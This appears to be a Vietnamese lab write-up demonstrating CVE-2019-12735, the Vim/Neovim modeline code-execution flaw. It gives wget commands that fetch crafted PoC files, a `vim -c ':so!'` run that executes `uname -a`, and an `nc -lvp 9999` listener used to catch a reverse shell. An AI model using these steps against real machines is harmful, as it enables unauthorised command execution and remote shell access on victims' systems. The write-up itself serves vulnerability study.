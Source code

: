 ```yaml
---
date: 2019-06-14
title: CVE-2019-12735
categories:
  - CVE-2019-12735
description: Vim < 8.1.1365 / Neovim < 0.3.6 - Arbitrary Code Execution
author: minhnv
tags: [CVE-2019-12735]
type: Document
---
```


# Exploit PoC: Linux command execution on Vim/Neovim vulnerability (CVE-2019–12735)

Vim ở phiên bản trước 8.1.1365 và Neevim trước phiên bản 0.3.6 dễ  thực thi code execution thông qua modelines bằng cách mở các file text đặt biệt được tạo ra. 

Chi tiết đọc thêm ở <a href="https://sensorstechforum.com/cve-2019-12735-linux-vim-neovim-vulnerabilities-get-hacked/">đây</a>

## Môi trường: 

`vim 7.4`

```
[root@sky ~]# vim --version 
VIM - Vi IMproved 7.4 (2013 Aug 10, compiled Oct 30 2018 19:56:57)
Included patches: 1-160, 399, 402-403, 1099
Modified by <bugzilla@redhat.com>
Compiled by <bugzilla@redhat.com>
```

## Thực hiện 

- POC1: Thực hiện `uname -a` khi sử dụng `vim somthing_file`

    + Tạo ra một file có nội dung sau

        `wget https://raw.githubusercontent.com/numirias/security/master/data/2019-06-04_ace-vim-neovim/poc.txt`

    + Thực hiện POC 

    ```
    vim -c ":so! poc.txt"
    ```

    + Kết quả 

    ```
    [root@sky ~]# vim -c ":so! poc.txt"

    Linux sky 3.10.0-957.21.2.el7.x86_64 #1 SMP Wed Jun 5 14:26:44 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

    Press ENTER or type command to continue
    ```

- POC2: Thực hiện reverse shell

    + Tạo ra một file có nội dung như sau 

        `wget https://raw.githubusercontent.com/numirias/security/master/data/2019-06-04_ace-vim-neovim/shell.txt`

    + Tham khảo thêm về kỹ thuật reverse shell tại <a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">đây</a>

        <img src="https://i.imgur.com/qekU364.png">

    + Chia 2 cửa số terminal

        + terminal 1: Thực hiện `nc -lvp 9999`
        + terminal 2: Thực hiên `vim -c ":so! /root/shell.txt"`

    + Kết quả: 

        + Trước khi thực hiện lệnh vim

            <img src="https://i.imgur.com/dhBa4MF.png">

        + Sau khi thực hiện lệnh vim 

            <img src="https://i.imgur.com/wCIPjtz.png">

## Tài liệu tham khảo 

- https://github.com/numirias/security

